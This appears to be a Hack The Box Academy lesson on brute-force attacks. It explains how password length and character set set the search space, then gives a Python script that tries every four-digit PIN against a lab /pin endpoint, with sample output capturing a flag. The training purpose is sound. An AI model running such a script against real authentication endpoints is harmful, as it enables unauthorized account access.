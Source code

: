 To truly grasp the challenge of brute forcing, it's essential to understand the underlying mathematics. The following formula determines the total number of possible combinations for a password:

Code: plaintext

```plaintext
Possible Combinations = Character Set Size^{Password Length}
```

For example, a 6-character password using only lowercase letters (character set size of 26) has 26^6 (approximately 300 million) possible combinations. In contrast, an 8-character password with the same character set has 26^8 (approximately 200 billion) combinations. Adding uppercase letters, numbers, and symbols to the character set further expands the search space exponentially.

This exponential growth in the number of combinations highlights the importance of password length and complexity. Even a small increase in length or the inclusion of additional character types can dramatically increase the time and resources required for a successful brute-force attack.

Let's consider a few scenarios to illustrate the impact of password length and character set on the search space:

||Password Length|Character Set|Possible Combinations|
|---|---|---|---|
|`Short and Simple`|6|Lowercase letters (a-z)|26^6 = 308,915,776|
|`Longer but Still Simple`|8|Lowercase letters (a-z)|26^8 = 208,827,064,576|
|`Adding Complexity`|8|Lowercase and uppercase letters (a-z, A-Z)|52^8 = 53,459,728,531,456|
|`Maximum Complexity`|12|Lowercase and uppercase letters, numbers, and symbols|94^12 = 475,920,493,781,698,549,504|

As you can see, even a slight increase in password length or the inclusion of additional character types dramatically expands the search space. This significantly increases the number of possible combinations that an attacker must try, making brute-forcing increasingly challenging and time-consuming. However, the time it takes to crack a password isn't just dependent on the size of the search space—it also hinges on the attacker's available computational power.

The more powerful the attacker's hardware (e.g., the number of GPUs, CPUs, or cloud-based computing resources they can utilize), the more password guesses they can make per second. While a complex password can take years to brute-force with a single machine, a sophisticated attacker using a distributed network of high-performance computing resources could reduce that time drastically.

![](https://academy.hackthebox.com/storage/modules/57/power.png)

The above chart illustrates an exponential relationship between password complexity and cracking time. As the password length increases and the character set expands, the total number of possible combinations grows exponentially. This significantly increases the time required to crack the password, even with powerful computing resources.

Comparing the basic computer and the supercomputer:

- Basic Computer (1 million passwords/second): Adequate for cracking simple passwords quickly but becomes impractically slow for complex passwords. For instance, cracking an 8-character password using letters and digits would take approximately 6.92 years.
- Supercomputer (1 trillion passwords/second): Drastically reduces cracking times for simpler passwords. However, even with this immense power, cracking highly complex passwords can take an impractical amount of time. For example, a 12-character password with all ASCII characters would still take about 15000 years to crack.

## Cracking the PIN

**To follow along, start the target system via the question section at the bottom of the page.**

The instance application generates a random 4-digit PIN and exposes an endpoint (`/pin`) that accepts a PIN as a query parameter. If the provided PIN matches the generated one, the application responds with a success message and a flag. Otherwise, it returns an error message.

We will use this simple demonstration Python script to brute-force the `/pin` endpoint on the API. Copy and paste this Python script below as `pin-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.

Code: python

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script systematically iterates all possible 4-digit PINs (0000 to 9999) and sends GET requests to the Flask endpoint with each PIN. It checks the response status code and content to identify the correct PIN and capture the associated flag.

  Brute Force Attacks

```shell-session
anasec@htb[/htb]$ python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
```

The script's output will show the progression of the brute-force attack, displaying each attempted PIN and its corresponding result. The final output will reveal the correct PIN and the captured flag, demonstrating the successful completion of the brute-force attack.

